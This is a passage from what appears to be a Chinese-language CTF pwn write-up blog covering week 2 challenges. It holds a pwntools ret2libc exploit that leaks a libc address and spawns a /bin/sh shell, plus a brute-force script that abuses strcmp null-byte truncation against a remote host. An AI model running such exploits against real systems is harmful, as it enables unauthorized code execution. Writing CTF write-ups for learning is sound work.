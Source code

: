 ```
payload = b'A'*40 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(vuln)
io.send(payload)
io.recvuntil(b'?\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
libc_b = puts_addr - libc.symbols['puts']
sys_a = libc_b + libc.symbols['system']
bin_a = libc_b + next(libc.search(b"/bin/sh\x00"))
#gdb.attach(io)
#pause()
payload = b'A'*40 + p64(ret) + p64(pop_rdi_ret) + p64(bin_a) + p64(sys_a)
io.send(payload)
io.interactive()                   
```

#### [Week 2] boom

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-20.png" alt="img" style="zoom:50%;" />

爆破法，strcmp会被00截断，我们可以写脚本爆破这种情况,第一次做这种题，感觉还挺好玩的

```
from pwn import *
def h():
   io.recvuntil(b'thinking?\n')
   io.send(b'\x00'*0x31)
   a = io.recv()
   print(a)
   if b'WOW' in a:
      io.interactive()

while True:
    try:
       io = remote('47.97.58.52',42000)
       h()
    except:
       io.close()
```

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/Screenshot-from-2024-10-17-20-11-33.png" alt="img" style="zoom:67%;" />

#### [Week 2] SROP

这题之后会放在SROP栏目里讲解

#### [Week 2] Syscall playground

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-21-1024x684.png" alt="img" style="zoom: 67%;" />

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-22-1024x677.png" alt="img" style="zoom:67%;" />

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-23-1024x256.png" alt="img" style="zoom:67%;" />
